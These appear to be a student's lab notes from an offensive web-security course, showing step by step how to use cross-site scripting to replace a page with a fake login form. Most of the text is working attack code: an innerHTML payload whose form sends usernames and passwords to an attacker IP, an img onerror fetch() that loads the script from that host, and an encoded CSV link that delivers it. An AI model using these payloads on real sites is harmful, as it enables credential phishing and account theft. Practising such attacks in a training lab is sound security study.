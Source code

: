 ┌──(root💀gobots)-[06Aug2024 18:55:21]-[/home/kali/SUT/OSWA/xss]
└─# cat phish.js   
document.getElementsByTagName("html")[0].innerHTML = "<form action='[http://192.168.45.236/login](http://192.168.45.236/login)' method='GET'><input type='text' placeholder='name@example.com' name='username'><input type='password' placeholder='Password' name='password'><button class='w-100 btn btn-lg btn-primary' type='submit'>Sign in</button></form>"

-----------------------

##### Login.html (One I created with following the video)
- Before putting on one liner - everything we need to make a proper login page
```html
<form action="http://192.168.45.236/login" method="GET">  
  <div class="container">  
    <label for="uname"><b>Username</b></label>  
    <input type="text" placeholder="Enter Username" name="uname" required>  
  
    <label for="psw"><b>Password</b></label>  
    <input type="password" placeholder="Enter Password" name="psw" required>  
  
    <button type="submit">Login</button>  
  </div>  
</form>
```
The One Liner
```html
<form action="http://192.168.45.236/login" method="GET"><div class="container"><label for="uname"><b>Username</b></label><input type="text" placeholder="Enter Username" name="uname" required><label for="psw"><b>Password</b></label><input type="password" placeholder="Enter Password" name="psw" required><button type="submit">Login</button></div></form>
```
Displaying it
<form action="http://192.168.45.236/login" method="GET"><div class="container"><label for="uname"><b>Username</b></label><input type="text" placeholder="Enter Username" name="uname" required><label for="psw"><b>Password</b></label><input type="password" placeholder="Enter Password" name="psw" required><button type="submit">Login</button></div></form>

-------------------
Now we need to make the one liner above = `innerHTML` in the `xss6.js` script instead of the `data`

![[Pasted image 20240805201048.png]]
So we take the `innerHTML` line from before and modify it to equal the new form
##### phishingexercise.js
- create the file `phishingexercise.js` in kali
```html
document.getElementsByTagName("html")[0].innerHTML = "<form action="http://192.168.45.236/login" method="GET"><div class="container"><label for="uname"><b>Username</b></label><input type="text" placeholder="Enter Username" name="uname" required><label for="psw"><b>Password</b></label><input type="password" placeholder="Enter Password" name="psw" required><button type="submit">Login</button></div></form>"
```
open up a `python3 -m http.server`
and utilize this `fetch` script to attempt to grab `phishingexercise.js`
```html
<img src="x" onerror='fetch("http://192.168.45.236:80/phishingexercise.js")'>
```
plug the script into the `list application`
![[Pasted image 20240806151812.png]]
hit share to get the `csv`
```csv
?csv=IyxVc2VyLGFjdGl2ZQo8aW1nIHNyYz0ieCIgb25lcnJvcj0nZmV0Y2goImh0dHA6Ly8xOTIuMTY4LjQ1LjIzNjo4MC9waGlzaGluZ2V4ZXJjaXNlLmpzIiknPiAsU2FtYW50aGEsMQo%3D
 ```
Upon submission, we get a hit on the python server
![[Pasted image 20240806155310.png]]